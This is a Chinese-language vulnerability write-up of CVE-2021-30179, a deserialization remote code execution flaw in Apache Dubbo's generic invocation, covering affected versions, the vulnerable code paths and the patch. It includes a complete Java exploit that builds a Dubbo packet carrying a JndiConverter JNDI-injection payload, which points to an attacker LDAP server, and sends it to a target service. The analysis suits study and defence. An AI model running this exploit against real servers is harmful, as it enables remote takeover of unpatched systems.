- [CVE-2021-30179 Apache Dubbo 远程代码执行漏洞](#cve-2021-30179-apache-dubbo-远程代码执行漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [漏洞原理](#漏洞原理)
    - [Generic Reference](#generic-reference)
    - [GenericFilter](#genericfilter)
    - [raw.return](#rawreturn)
      - [PojoUtils](#pojoutils)
    - [bean](#bean)
      - [JavaBeanSerializeUtil](#javabeanserializeutil)
    - [nativejava](#nativejava)
  - [漏洞复现](#漏洞复现)
    - [xbean.propertyeditor.JndiConverter](#xbeanpropertyeditorjndiconverter)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2021-30179 Apache Dubbo 远程代码执行漏洞
## 影响版本
```
Apache Dubbo 2.7.0 to 2.7.9
Apache Dubbo 2.6.0 to 2.6.9
Apache Dubbo all 2.5.x versions (官方已不再提供支持)
```
## 环境搭建
参考:  
https://cn.dubbo.apache.org/zh-cn/overview/mannual/java-sdk/quick-start/spring-boot/#5-%E5%AE%9A%E4%B9%89%E6%9C%8D%E5%8A%A1%E7%AB%AF%E7%9A%84%E5%AE%9E%E7%8E%B0
## 漏洞原理
### Generic Reference
Apache Dubbo支持泛化引用,泛化调用是指在调用方没有服务方提供的 API（SDK）的情况下，对服务方进行调用，并且可以正常拿到调用结果.   
官方文档: https://cn.dubbo.apache.org/zh-cn/overview/mannual/java-sdk/advanced-features-and-usage/service/generic-reference/  
客户端调用的代码如下:
```java
    private static GenericService genericService;

    public static void main(String[] args) throws Exception {
        ClassPathXmlApplicationContext context = new ClassPathXmlApplicationContext("spring/generic-impl-consumer.xml");
        context.start();
        //服务对应bean的名字由xml标签的id决定
        genericService = context.getBean("helloService");
        //获得结果
        Object result = genericService.$invoke("sayHello", new String[]{"java.lang.String"}, new Object[]{"world"});
    }
```
### GenericFilter
当客户端通过泛化来调用时,ApacheDubbo进行处理的对应类为`org.apache.dubbo.rpc.filter.GenericFilter`.   
首先对传入的参数进行判断是否满足泛化调用的条件,然后根据反射来获取调用的Method.
  
通过请求中的generic参数来选择不同的方法反序列化参数.

### raw.return
当generic参数为true或者raw.return时将会调用`PojoUtils.realize`方法.  


#### PojoUtils
在`PojoUtils#realize`方法中主要在`realize0`针对传入的参数的class进行判断,针对Map等这类基础类型进行单独处理,而如果都不是的话则会进入到最后的else分支中.  
  
可以看到在其中通过反射来创建对象,并获取对应的`setter`方法进行反射调用来还原属性.在这个就可以通过构造能利用setter方法触发RCE的类进行反序列化了.
### bean
当generic为`bean`时将会调用`JavaBeanSerializeUtil.deserialize`方法,同时该Object必须为`JavaBeanDescriptor`的子类.  
  
而`javaBeanDescriptor`就是一个POJO对象的包装器.
#### JavaBeanSerializeUtil
进入`JavaBeanSerializeUtil.deserialize`后,通过`instantiateForDeserialize`利用ClassforName来创建该对象.  
  
   
  
最后会来到`deserializeInternal`方法中.
同样对Map,Array等类型有一些单独处理,而如果Object类型为Bean类型.首先会获取该`JavaBeanDescriptor`对象中的属性名称和值. 
  
然后通过`getSetterMethod`获取到该Obejct的setter方法,同样利用反射来设置还原对应的属性.同样在这里就可以通过构造能利用setter方法触发RCE的类进行反序列化了.
### nativejava
如果generic为`nativejava`,将遍历所有参数,如果参数类型为byte[]数组,那么便创建一个`UnsafeByteArrayInputStream`,并且传入的值就是该参数.
  
然后通过调用`UnsafeByteArrayInputStream`的readObject()方法来反序列化,也就是jdk原原生的反序列化.
## 漏洞复现
主要在于构造Dubbo协议的数据包,协议格式可参数官方文档:  
https://cn.dubbo.apache.org/zh-cn/docs/concepts/rpc-protocol/#protocol-spec  
### xbean.propertyeditor.JndiConverter
这里通过Bean为例进行反序列化,利用恶意类的是`org.apache.xbean.propertyeditor.JndiConverter`类,其继承了`AbstractConverter`.  
在`AbstractConverter`中其`setAsText`方法最终会调用到`toObjectImpl`方法.
  
  
而`org.apache.xbean.propertyeditor.JndiConverter`类重写了`toObjectImpl`含有一个JNDI注入的sink.  

```java
package exp;

import org.apache.dubbo.common.beanutil.JavaBeanDescriptor;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.hessian2.Hessian2ObjectOutput;


import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;

public class cve_2021_30179 {
    public static void main(String[] args) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        // header.
        byte[] header = new byte[16];
        // set magic number.
        Bytes.short2bytes((short) 0xdabb, header);
        // set request and serialization flag.
        header[2] = (byte) ((byte) 0x80 | 2);

        // set request id.
        Bytes.long2bytes(new Random().nextInt(100000000), header, 4);
        ByteArrayOutputStream hessian2ByteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2ObjectOutput out = new Hessian2ObjectOutput(hessian2ByteArrayOutputStream);

        // set body
        out.writeUTF("2.7.8");
        //todo 此处填写Dubbo提供的服务名
        out.writeUTF("com.demo.api.userInterface");
        out.writeUTF("");
        out.writeUTF("$invoke");
        out.writeUTF("Ljava/lang/String;[Ljava/lang/String;[Ljava/lang/Object;");
        //todo 此处填写Dubbo提供的服务的方法
        out.writeUTF("say");
        out.writeObject(new String[] {"java.lang.String"});

        JavaBeanDescriptor javaBeanDescriptor = new JavaBeanDescriptor("org.apache.xbean.propertyeditor.JndiConverter",7);
        javaBeanDescriptor.setProperty("asText","ldap://192.168.91.1:1389/4gkfxq");
        out.writeObject(new Object[]{javaBeanDescriptor});
        HashMap map = new HashMap();
        map.put("generic", "bean");
        out.writeObject(map);
        out.flushBuffer();
        Bytes.int2bytes(hessian2ByteArrayOutputStream.size(), header, 12);
        byteArrayOutputStream.write(header);
        byteArrayOutputStream.write(hessian2ByteArrayOutputStream.toByteArray());
        byte[] bytes = byteArrayOutputStream.toByteArray();
        //todo 此处填写Dubbo服务地址及端口
        Socket socket = new Socket("192.168.1.115", 20880);
        OutputStream outputStream = socket.getOutputStream();
        outputStream.write(bytes);
        outputStream.flush();
        outputStream.close();
    }
}
```

## 补丁
针对`raw.return`和`bean`方式的反序列化,添加了一个`SerializeClassChecker`黑白名单机制进行防御.  

  
nativejava 则从配置文件中判断是否支持Java反序列化，默认为false.
## 参考
https://mp.weixin.qq.com/s/vHJpE2fZ8Lne-xFggoQiAg  
https://xz.aliyun.com/t/10916#toc-28